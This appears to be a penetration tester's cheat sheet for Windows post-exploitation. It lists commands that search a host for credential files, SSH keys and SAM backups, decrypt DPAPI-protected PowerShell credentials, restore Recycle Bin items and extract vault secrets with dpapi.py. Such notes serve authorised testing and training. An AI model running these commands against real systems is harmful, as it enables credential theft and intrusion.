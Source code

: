 - Transcripts & Logs
  - `dir C:\Transcripts`
  - `Get-WinEvent -LogName "windows Powershell" | select -First 15 | Out-GridView`
  - `Get-WinEvent -LogName "Microsoft-Windows-Powershell/Operational" | select -first 20 | Out-Gridview`
### Important Files
- **Important files**, in root
  ```cmd
  cmd /c 'dir /a /s /b id_rsa id_ed* credentials.db access_tokens.db legacy_credentials accessTokens.json azureProfile.json netsetup.log iis6.log "Custom Dictionary.txt" sysprep.xml sysprep.inf php.ini my.cnf my.ini docker-compose.yml Dockerfile server.xml confCons.xml tomcat-users.xml kibana.* confCons.xml *.passwd ultravnc.ini smtp.* elasticsearch.* FreeSSHDservice.ini AppEvent.Evt SecEvent.Evt SiteList.xml unattend.xml Groups.xml ConsoleHost_history.txt plum.sqlite RDCMan.settings sam.bak sam.old sam.save sam.sav system.old system.sav system.bak system.save *.git-credentials config.ini *.kdbx *.vhd *.vhdx *.vmdk *.rdp *.cred cookies.sqlite *.kirbi 2>nul'
  ```
	- `confCons.xml`: see Local Applications
	- **Powershell `.ps1` files**: 
	  ```cmd
	  findstr /spin "GetNetworkCredential()" *.ps1 *.ps1* 2>nul'
	  ```
	  if they call an `xml` file to store credentials though DPAPI, that is invoking the command `GetNetworkCredential()`, they can be decrypted by the user that has access to the powershell file
		- Ignore the chocolatey files.
		- Get the `.xml` file and crack
			```powershell
			$credential = Import-Clixml -Path '[FILE].xml'
			$credential.GetNetworkCredential().username
			$credential.GetNetworkCredential().password
			```
- **Recycle Bin**
	- Restore all files in the recycle bin in the desktop of the current user
		```powershell
		$recycleBin = (New-Object -ComObject Shell.Application).NameSpace(0xA)
		$items = $recycleBin.Items()
		$documentsPath = [Environment]::GetFolderPath("Desktop")
		$documents = (New-Object -ComObject Shell.Application).NameSpace($documentsPath)
		foreach ($item in $items) {
		$documents.MoveHere($item)
		}
		```
- **DPAPI** - Requires User pwd
	1. PS one-liner (change [USER])
		```powershell
		$user = '[USER]'; 
		$credPath = "C:\Users\$user\AppData\Local\Microsoft\Credentials\*"; 
		$masterPath = "C:\Users\$user\AppData\Roaming\Microsoft\Protect\*\*"; 
		Write-Host "Credential files:" (Test-Path $credPath); 
		Write-Host "Master keys:" (Test-Path $masterPath); 
		gci $credPath, $masterPath -ErrorAction SilentlyContinue | % { $.FullName }
		```
	2. On Kali, get master key from the file in the Protected folder
	   ```bash
	   dpapi.py masterkey -file [PROTECT_FILE] -password '[PASS]' -sid [SID]
		```
	3. Read the vault from the file in the credential folder
	   ```bash
	   dpapi.py credential -file [CRED_FILE] -key [KEY]
		```
- **SCCM Logs**
	- `%WINDIR%\system32\CCM\logs\*.log`
	- Access Log Files in Directory
- ProgramData Configs: `C:\ProgramData\Configs\*`
